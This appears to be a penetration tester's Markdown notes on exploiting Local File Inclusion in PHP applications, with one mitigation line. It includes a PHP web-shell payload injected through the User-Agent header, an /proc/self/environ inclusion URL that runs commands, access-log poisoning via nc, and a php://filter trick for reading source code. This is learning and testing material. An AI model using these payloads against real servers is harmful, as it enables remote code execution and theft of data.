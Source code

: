 # LFI

## LFI

LFI mitigiation:

```text
open_basedir = On in php.ini

(if this is on, PHP can't access any file outside the specified directory) , essentially kills the purpose of include statements in other directories such as libraries)
```

Techniques which can be used to leverage LFI:

```text
- /proc/self/environ
- /proc/self/fd
- /var/log/apache2/access.log
- /var/log/auth.log
- php://input wrapper
- php://filter wrapper
- data:wrapper
```

Great source for in-depth detail of exploiting vulnerabilities: [https://resources.infosecinstitute.com/local-file-inclusion-code-execution/](https://resources.infosecinstitute.com/local-file-inclusion-code-execution/)

### /proc/self/environ

Contains environment variables

* REMOTE\_PORT
* HTTP\_USER\_AGENT
* etc

`SHOULD NOT BE ACCESSIBLE FROM NON-ROOT USERS`

Exploit:

Intercept request and edit the User-Agent, and replace with php executable code.

Example: User-Agent: &lt;?php system\($\_GET\['cmd'\]\); ?&gt;

After the request is sent to the server,

include /proc/self/environ in the LFI, and append your PHP code.

[http://localhost/index.php?file=/proc/self/environ&cmd=whoami](http://localhost/index.php?file=/proc/self/environ&cmd=whoami)

### /var/log/apache2/access.log

`Should not be accessible from non-root users`

Access.log logs all requests to the web server \(including 404s\), though excludes 400s \(bad server request\)

To exploit, send a HTTP request containing php code using nc & include access.log using the LFI

\(Images from Infosec Institute\)

![using nc to send request](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/080416_0223_FromLocalFi8.png)

### PHP Filters

Convert file output to base64:

The reason you would want to convert a php file to base64 is because if the php file is included in the LFI, the php file itself will execute and you will not be able to see the source code.

By using the filter to convert the output to base64, we can then decode the output and see the source

```text
php://filter/read=convert.base64-encode/resource=FILE
```

Read about the different PHP filters: [https://highon.coffee/blog/lfi-cheat-sheet/](https://highon.coffee/blog/lfi-cheat-sheet/)

